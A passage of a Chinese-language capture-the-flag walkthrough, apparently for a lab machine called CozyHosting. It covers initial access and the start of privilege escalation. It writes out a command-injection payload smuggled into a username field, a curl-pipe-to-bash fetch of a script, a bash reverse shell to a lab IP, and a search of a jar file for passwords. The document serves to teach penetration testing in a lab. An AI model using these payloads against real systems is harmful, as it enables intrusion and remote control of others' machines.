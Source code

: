    host=127.0.0.1&username=id**;ping$IFS$9-c4$IFS$910.10.14.89;**

      

# 二、获取初始立足点

1. 创建一个rs.sh文件

   ```sh
   #/bin/bash
   bash -c "bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"
   ```

2. 本地使用python开启http服务，然后让目标机器访问rs.sh并执行

   有效负载如下

   host=127.0.0.1&username=id;curl$IFS$9http://10.10.14.89/rs.sh|bash;



​		成功获取了初始立足点

​		![image-20231010174119553](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202310101741264.png)



3. 稳固shell

   ```
   python -c 'import pty;pty.spawn("/bin/bash")'，请根据需要替换python为python2或python3。
   export TERM=xterm
   Ctrl + Z 将 shell 置入后台。回到我们自己的终端，我们使用stty raw -echo; fg
   ```

   

# 三、特权升级

1. 使用linpeas.sh枚举一下目标机器

   发现本地8080口运行着一个java服务，本地的5432端口还运行着portgreSql服务

   ![image-20231010175357812](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202310101754694.png)

   8080上的服务和80口上的服务一致，没有探测的必要

   ![image-20231010180810369](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202310101808399.png)



2. 在/apt找到了可能包含有密码的cloudhosting-0.0.1.jar文件，直接检索password关键字没有找到有用的信息

   ![image-20231010181714148](C:/Users/Administrator/AppData/Roaming/Typora/typora-user-images/image-20231010181714148.png)

   

3. google后得知jar是一种使用zip压缩算法的打包java文件的方式，使用zipgrep命令来检索压缩包中的password字符串。

   ```
   app@cozyhosting:/app$ zipgrep password cloudhosting-0.0.1.jar 
   grep: (standard input): binary file matches
   grep: (standard input): binary file matches
   grep: (standard input): binary file matches
   BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-fill:before { content: "\eecf"; }
   BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-line:before { content: "\eed0"; }
   BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:.ri-lock-password-fill:before { content: "\eecf"; }
   BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:.ri-lock-password-line:before { content: "\eed0"; }
   ```